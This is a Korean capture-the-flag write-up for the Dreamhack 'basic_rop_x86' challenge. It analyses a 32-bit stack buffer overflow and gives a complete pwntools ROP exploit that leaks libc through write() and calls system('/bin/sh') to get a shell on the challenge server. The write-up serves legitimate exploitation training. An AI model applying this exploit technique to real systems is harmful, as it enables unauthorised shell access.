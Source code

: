 # basic_rop_x86 - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 2
- Provided Files: basic_rop_x86.c, basic_rop_x86(ELF), libc.so.6
- tools: gdb(pwndbg), checksec, ROPgadget   
## Brief Description
이 문제는 서버에서 작동하고 있는 서비스(basic_rop_x86)의 바이너리와 소스 코드가 주어집니다.
Return Oriented Programming 공격 기법을 통해 셸을 획득한 후, "flag" 파일을 읽으세요.
"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
플래그의 형식은 DH{...} 입니다.
## Initial Analysis
### Environment
``` sh
checksec --file=basic_rop_x86
Arch:       i386-32-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```
### Code
``` c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```
## Vulnerability
### BOF(Buffer Overflow)
``` c
char buf[0x40] = {};

read(0, buf, 0x400);
```
`buf`의 크기는 0x40인 반면, `read`로 `buf`에서 읽어오는 크기는 0x400로 한참 초과하여 BOF 취약점이 발생한다.  
## Exploit
### Strategy
PIE와 Canary가 비활성화 되어있고, BOF 취약점이 존재해 ROP 공격이 가능한 환경이다. 32bit 환경에서는 레지스터가 아닌 스택에서 값을 pop하여 인자로 전달하며 순서 또한 반대다. x64 ROP와의 또 다른 차이점은 pop 횟수만 중요할 뿐, 어떤 레지스터에 값이 저장되는지는 크게 중요하지 않다. 이번에는 GOT를 덮어쓰지 않고 `system`을 직접 호출할 것이다.  
여담으로, libc.so.6는 아키텍처에 따라 다르다(당연하죠?). 이걸 깜빡하고 libc 버전을 확인하지 않은 채 문제를 풀다가 몇십 분 동안 삽질했다. 앞으로 아키텍처 및 버전 확인을 좀 잘 해야겠다.
### ROP gadgets
- pop; let
- pop3; let
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
| ra | 0x4 |
| ebp |  |
| dummy | -0x4 |
| buf | -0x44 |
### payload
``` python
from pwn import *

p = remote('host8.dreamhack.games', 18581)
context.arch = "i386"

e = ELF('./basic_rop_x86')
libc = ELF('./libc.so.6')
r = ROP(e)

write_plt = e.plt['write']
write_got = e.got['write']
read_plt = e.plt['read']
read_got = e.got['read']
main = e.symbols['main']

read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
sh_offset = list(libc.search(b"/bin/sh"))[0]

pop_ret = r.find_gadget(['pop ebp', 'ret'])[0]
pop3_ret = r.find_gadget(['pop esi', 'pop edi', 'pop ebp', 'ret'])[0]


# Exploit
payload = b''
payload += b'A' * 0x48 

# write(1, read_got, 4) -> libc base leak
payload += p32(write_plt) 
payload += p32(pop3_ret) 
payload += p32(1) + p32(read_got) + p32(4) 
payload += p32(main) # ret2main

p.send(payload)
p.recvuntil(b'A' * 0x40)

read = u32(p.recvn(4))
libc_base = read - read_offset
system = libc_base + system_offset
binsh = libc_base + sh_offset
log.info(f'system: {system}')
log.info(f'sh: {binsh}')

# system("/bin/sh") 
payload = b''
payload += b'A' * 0x48
payload += p32(system) 
payload += p32(pop_ret) # GOT overwrite가 아닌 직접 호출
payload += p32(binsh)

p.send(payload)
p.recvuntil(b'A' * 0x40)

# interactive
p.interactive()
```